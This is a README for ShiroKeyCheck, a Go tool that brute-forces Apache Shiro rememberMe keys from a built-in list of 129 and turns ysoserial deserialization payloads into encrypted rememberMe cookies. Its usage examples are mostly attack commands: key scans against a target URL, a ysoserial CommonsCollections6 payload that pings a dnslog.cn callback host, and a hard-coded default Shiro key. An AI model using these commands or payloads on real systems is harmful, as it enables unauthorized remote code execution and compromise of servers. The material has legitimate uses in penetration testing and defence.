


# ShirokeyCheck

[中文介绍](README.zh_CN.md)

Golang development, multi-platform support.

In order to adapt to different targets and different network conditions, a variety of http request parameters have been added, such as: specified request timeout, each request interval, http proxy.

There are 129 keys built in, and two modes of detection, AES-CBC and AES-GCM, are supported by default.

Support to encrypt the payload generated by ysoserial, generate rememberMe field, and use it.

## Usage

```
Usage of ./ShiroKeyCheck:
  -content string
    	POST Method Content
  -interval int
    	Each request interval time(s)
  -key string
    	Specify the key and use CBC and GCM modes for detection
  -m string
    	Request Method (default "GET")
  -mode string
    	Specify CBC or GCM encryption mode (only valid for -ser parameter)
  -proxy string
    	Set up http proxy e.g. http://127.0.0.1:8080
  -ser string
    	Encrypt the bytecode file to generate the RememberMe field
  -timeout int
    	Request timeout time(s) (default 60)
  -u string
    	Target url（Needed）
  -ua string
    	User-Agent (default "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36")
```

## keyCheck

`ShiroKeyCheck -u http://172.19.28.20:8080/login.jsp` 

### Set proxy and request interval

`./ShiroKeyCheck -u http://172.19.28.20:8080/login.jsp -interval 10 -proxy http://127.0.0.1:7890`



### Encrypt the payload generated by ysoserial

`java -jar ysoserial.jar CommonsCollections6 "ping 18pa70.dnslog.cn" > aa.txt`

`./ShiroKeyCheck -key kPH+bIxk5D2deZiIxcaaaA== -mode cbc -ser aa.txt`


## Compilation

```
go build -ldflags="-s -w" -o ShiroKeyCheck main.go
CGO_ENABLED=0 GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" -o ShiroKeyCheck.exe main.go
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build -ldflags="-s -w" -o ShiroKeyCheck main.go
```


